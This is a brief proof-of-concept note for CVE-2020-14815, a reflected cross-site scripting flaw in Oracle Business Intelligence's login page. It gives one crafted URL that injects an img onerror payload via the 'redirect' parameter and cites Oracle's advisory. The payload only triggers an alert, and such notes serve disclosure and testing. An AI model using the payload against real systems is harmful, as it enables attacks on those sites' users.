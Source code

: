# CVE-2020-14815 Oracle Business Intelligence XSS

CVE-2020-14815 Oracle Business Intelligence XSS

PoC：

```
https://target[.]com/bi-security-login/login.jsp?msi=false&redirect="><img/src/onerror%3dalert(document.domain)>
```

media/16097303376686/16097303534400.jpg)


ref：

https://www.oracle.com/security-alerts/cpuoct2020.html

https://twitter.com/HackerOn2Wheels/status/1326927875279380480